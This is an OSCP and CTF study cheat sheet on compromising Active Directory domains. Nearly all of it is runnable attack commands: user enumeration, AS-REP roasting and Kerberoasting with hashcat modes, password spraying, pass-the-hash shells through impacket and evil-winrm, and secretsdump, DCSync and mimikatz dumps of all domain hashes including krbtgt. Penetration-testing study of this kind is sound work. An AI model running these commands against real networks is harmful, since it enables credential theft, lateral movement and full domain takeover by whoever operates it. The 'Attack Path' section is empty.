

# AD Quick Reference

## Up
- [[Privilege Escalation]]

> Concise CTF-flow reference. For the full methodology (delegation, ACL/GPO, NTLM relay, AD CS, trusts, persistence) see the comprehensive **[[Active Directory]]** category.

Active Directory is **heavily weighted in the current OSCP exam**. Once you have any domain foothold/creds, the goal is **user → higher-priv user → Domain Admin**, mostly by abusing Kerberos, ACLs, and credential reuse. Ports that scream "AD": 88 (Kerberos), 389/636 (LDAP), 445 (SMB), 3268 (GC), 53 (DNS on DC).

---

## Enumerate the Domain

```bash
# with creds (or a null/guest session)
enum4linux-ng -A $IP
crackmapexec smb $IP -u user -p pass --users --groups --shares --pass-pol
ldapsearch -x -H ldap://$IP -b "dc=corp,dc=local"        # anon LDAP dump?
rpcclient -U 'user%pass' $IP -c 'enumdomusers;querydispinfo'

# BloodHound — collect then analyse attack paths
bloodhound-python -u user -p pass -d corp.local -ns $IP -c all
#   → import into BloodHound GUI → "Shortest paths to Domain Admins"
```

**BloodHound is the map** — it shows the exact edges (AdminTo, GenericAll, DCSync, etc.) from where you are to Domain Admin.

---

## Get Initial Creds (no creds yet)

```bash
# AS-REP Roasting — users with "Do not require Kerberos preauth"
impacket-GetNPUsers corp.local/ -usersfile users.txt -no-pass -dc-ip $IP
#   → $krb5asrep$ hash → hashcat -m 18200
# username enumeration first:
kerbrute userenum -d corp.local --dc $IP users.txt
# password spraying (watch lockout!):
crackmapexec smb $IP -u users.txt -p 'Winter2026!' --continue-on-success
```

---

## Kerberoasting (need any domain creds)

```bash
impacket-GetUserSPNs corp.local/user:pass -dc-ip $IP -request
#   → $krb5tgs$ hash for service accounts → hashcat -m 13100 → often weak passwords
```

Service accounts (SPNs) frequently have weak, crackable passwords and high privilege — a classic OSCP path. See [[Hashcat]]/[[Password Cracking]].

---

## Move With What You Have (creds or hashes)

```bash
# validate creds / spray across hosts
crackmapexec smb <range> -u user -p pass                 # (Pwn3d! = local admin)
crackmapexec smb <range> -u user -H <NTLM>               # pass-the-hash

# get a shell
evil-winrm -i $IP -u user -p pass                        # WinRM (5985) — see [[WinRM (5985,5986)]]
impacket-psexec corp.local/user:pass@$IP                 # SMB admin → SYSTEM
impacket-wmiexec corp.local/user@$IP -hashes :<NTLM>     # PtH, quieter
```

**Pass-the-Hash:** you rarely need to crack NTLM — use the hash directly with CME/psexec/wmiexec/evil-winrm.

---

## Dump Domain Secrets (once you have DA / DCSync rights)

```bash
impacket-secretsdump corp.local/user:pass@$IP            # local SAM + LSA
impacket-secretsdump -just-dc corp.local/DA:pass@DC_IP   # DCSync: all domain hashes (incl krbtgt)
# krbtgt hash → Golden Ticket (persistence)
mimikatz # lsadump::dcsync /user:krbtgt   |   sekurlsa::logonpasswords
```

---

## Attack Path



---

## Common OSCP AD Vectors (checklist)

- **AS-REP roast** (no preauth) → crack.
- **Kerberoast** (SPN accounts) → crack weak service passwords.
- **Password spraying / reuse** across users and hosts (lockout-aware).
- **Pass-the-Hash** with looted NTLM.
- **BloodHound ACL abuse** — GenericAll/WriteDACL/AddMember over a user/group; ForceChangePassword.
- **Delegation** — unconstrained/constrained/RBCD.
- **GPP passwords** (`cpassword` in SYSVOL `Groups.xml`) — decryptable.
- **SMB shares / SYSVOL** — scripts and configs with creds.
- **secretsdump / DCSync** once privileged → **krbtgt** = game over.

---

## Tools

`impacket` suite, `crackmapexec`/`netexec`, `BloodHound` + collectors, `kerbrute`, `evil-winrm`, `ldapsearch`/`ldapdomaindump`, `mimikatz`, `Rubeus`, `enum4linux-ng`, `Certipy` (AD CS / ESC1-8).

---

## Tips

- **BloodHound first** once you have any creds — it hands you the path.
- **Reuse creds/hashes everywhere** (SMB, WinRM, MSSQL, RDP) before cracking.
- Track **users, hosts, creds, hashes, tickets** in your notes — AD is multi-host bookkeeping.
- Watch **account lockout** when spraying (`--pass-pol` first).
- **AD CS (Certipy)** ESC1-8 is increasingly common — check if a CA is present.
